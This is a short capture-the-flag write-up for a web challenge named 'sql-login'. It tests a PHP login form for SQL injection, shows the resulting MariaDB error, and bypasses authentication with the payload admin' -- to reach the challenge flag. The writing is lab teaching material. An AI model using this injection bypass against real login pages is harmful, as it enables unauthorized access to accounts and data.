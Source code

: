 # sql-login:
## Description:
On this web page we are presented with only a login terminal and the text

---

Welcome to my first web page!</br>
Only administrators are allowed to see the secrets of this web page

---

The name of this task hints towards SQL injection so we will start by checking if the web page is vulnerable to SQL injections. By typing ``'";`` in the username field and pressing enter we get the following error code: 
```
Uncaught mysqli_sql_exception: You have an error in your SQL syntax; check the manual that corresponds to your MariaDB server version for the right syntax to use near '"; ' AND password = 'dwd'' at line 1 in /var/www/html/login.php:41 Stack trace: #0 /var/www/html/login.php(41): mysqli_query(Object(mysqli), 'SELECT * FROM U...') #1 {main} thrown in /var/www/html/login.php on line 41
``` 

We now know SQL injection is possible and want to try to login.</br>
Since we are given the information that only administrators are allowed to see the secrets of the page we have to try and login as an administrator. Knowing the username of the administrator is not always easy, however guessing *admin* is a good place to begin. Since we do not know the password we need to somehow make the SQL query ignore the password field. This can be done in many ways, but by commenting out everthing after the username is a simple solution. We therefore type in the following:
```
username: admin' -- 
password: whatever
```
(make sure to have a space after *--* in the username)<\br>
Which will result in the following SQL query:
```sql 
SELECT * FROM Users WHERE username = 'admin' --  AND password = 'whatever'
```

And we will end up with the flag displayed on the web page
```
KID20{sql_inj3cti0n_i5_alw4ys_fun}
```

